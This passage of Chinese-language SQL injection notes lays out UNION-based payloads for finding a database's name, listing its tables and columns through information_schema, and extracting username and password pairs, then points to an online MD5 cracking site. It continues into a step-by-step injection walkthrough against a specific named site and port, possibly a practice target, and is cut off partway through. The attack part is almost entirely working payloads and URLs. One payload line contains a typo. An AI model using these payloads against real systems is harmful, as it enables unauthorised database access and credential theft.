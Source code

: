    

7. 联合查询字段中带上database()查看当前网站所使用的数据库名

   ```mysql
   select * from t_xx where c_xx = -1 union select 1,database(),3,4,5,...
   ```

8. 在information_schema库中根据数据库名查表名

   ```mysql
   select * from t_xx where c_xx = -1 union select 1,2,table_name3,4,5... from information_schema.tables where table_schema = "第6步查到的库名"	#只能查到并显示一张表
   
   #要想显示所有表,需要使用group_concat()函数
   select * from t_xx where c_xx = -1 union select 1,2,group_concat(table_name),4,5... from information_schema.tables where table_schema = "第6步查到的库名"
   ```

   

9. 查询关键表的字段

   ```mysql
   select * from t_xx where c_xx = -1 union select 1,2,group_concat(column_name),4,5 from information_schema.columns where table_schema="库名" and table_name="7步查到的表名" 
   ```

   

   

10. 查询关键字段(如username,password等)的记录,得到用户名和密码.(密码有可能是被加密过的,如果是md5加密,可以用cmd5尝试解密)

   ```mysql
   select * from t_xx where c_xx = -1 union select 1,2,group_caoncat(username,"=",password),4,5 from 表名
   ```

   

11. 解密过后即可通过用户名和密码登录到系统当中!

    md5在线解密:

    > https://www.cmd5.com/

#### 记针对http://www.wabjtam.ml:12880的联合注入:

1. 打开网站,在新闻上传页面找到注入点,

   ```
   www.wabjtam.ml:12880/News/newsView.php?newsId=1    新闻信息页面存在注入点
   ```

2. 通过order by爆出列数

   ```
   http://www.wabjtam.ml:12880/News/newsView.php?newsId=1%20order%20by%206
   ```

   得到列数为5,则联合查询也需要五个字段

3. 构造一个不存在的参数,使其查不到原有内容:

   ```
   http://www.wabjtam.ml:12880/News/newsView.php?newsId=-1
   ```
